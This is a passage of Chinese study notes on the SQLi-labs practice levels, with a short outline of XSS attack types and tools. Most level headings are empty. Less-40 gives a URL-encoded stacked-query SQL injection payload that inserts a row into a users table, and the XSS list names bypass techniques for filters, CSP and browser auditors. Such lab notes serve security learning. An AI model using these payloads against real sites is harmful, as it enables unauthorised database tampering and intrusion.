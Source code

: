 同 38，只是没有 `‘’`。

##### Less-40 

没有任何防护，得到字段名之后就可以直接往里插入数据

```
id=1;%20insert%20into%20users(id,username,password)%20values%20(%27110%27,%27less41%27,%27hello%27)%23
```

##### Less-41 
##### Less-42 
##### Less-43 
##### Less-44 
##### Less-45 
##### Less-46 

`order by` 配合 `rand()` 

##### Less-47 
##### Less-48 
##### Less-49 
##### Less-50 
##### Less-51 
##### Less-52 
##### Less-53 
##### Less-54 
##### Less-55 
##### Less-56 
##### Less-57 
##### Less-58 
##### Less-59 

## XSS

类型：

+   简单存储型 xss 盲打管理员后台
+   各种浏览器 auditor 绕过
+   富文本过滤黑白名单绕过
+   CSP 绕过
+   Flash xss
+   AngularJS 客户端模板 xss

工具：

+   hackbar

+   xss 平台
+   swf decompiler
+   flasm
+   doswf(swf加密)
+   Crypt Flow(swf加密)
